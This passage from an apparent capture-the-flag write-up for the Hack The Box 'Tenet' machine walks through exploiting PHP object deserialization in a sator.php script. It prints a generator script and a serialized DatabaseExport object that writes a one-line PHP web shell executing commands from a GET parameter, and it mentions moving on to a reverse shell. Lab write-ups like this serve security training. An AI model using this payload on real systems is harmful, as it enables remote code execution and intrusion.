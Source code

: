 This script will initialize the `$input` variable with the value of the GET parameter `arepo` (set to '', if not provided). It will then unserialize it and save it in `$databaseupdate`.

Looking at the `DatabaseExport` class, we see that it has two attributes:
- `$user_file`
- `$data`

The function `update_db()` just outputs some text and update the `$data` variable to 'Success'.

The `__destruct()` function, which is a special function called when an object of type `DatabaseExport` is freed from the memory, will write to a file whatever is in the `$data` variable.

With all this information, we can write a web shell by doing the following:

- Create a serialized object of type `DatabaseExport` with the `$user_file` variable set to the name of our webshell and `$data` set to the actual webshell php code.
- Pass this serialized object to the `sator.php` script through the GET parameter `arepo`.
- Then, the script will instanciate a new object with the provided data.
- Once the execution is done, the `__destruct()` method is called, and our webshell will be written.

### Deserialization to RCE

We can use the following php script to generate our serialized object:

```php
<?php
class DatabaseExport {
    public $user_file = "shell.php";
    public $data = '<?php system($_GET["cmd"]); ?>';
}

$dbe = new DatabaseExport;
echo "-> " . serialize($dbe) . "\n";
?>
```

After executing the script, we get the following serialized object:

```php
O:14:"DatabaseExport":2:{s:9:"user_file";s:9:"shell.php";s:4:"data";s:30:"<?php system($_GET["cmd"]); ?>";}
```

Now we can send it to the `sator.php` script:

{{<figure src="/img/htb/tenet/sending_payload.png" position=center caption="Sending exploit to /sator.php">}}

Here we notice that `[] Database updated <br>` appears twice, indicating that the `__destruct()` method ran twice, which is a good sign.

Now let's see if our web shell was successfully created:

{{<figure src="/img/htb/tenet/webshell.png" position=center caption="Web shell as www-data">}}

It was created. We can now get a reverse shell:

{{<figure src="/img/htb/tenet/revshell_payload.png" position=center caption="Executing reverse shell">}}
